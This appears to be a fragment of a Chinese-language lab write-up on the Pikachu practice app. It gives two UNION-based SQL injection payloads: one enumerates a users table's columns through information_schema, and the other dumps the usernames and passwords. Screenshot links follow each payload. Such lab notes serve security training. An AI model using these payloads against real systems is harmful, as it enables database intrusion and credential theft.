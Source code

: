 查字段

```
id=-3 union select 1,group_concat(column_name) from information_schema.columns where table_schema='pikachu' and table_name='users'
```

![image-20250121082208870](../../_media/image-20250121082208870.png)



查内容

```
id=-3 union select group_concat(username),group_concat(password) from users
```

![image-20250121082243592](../../_media/image-20250121082243592.png)
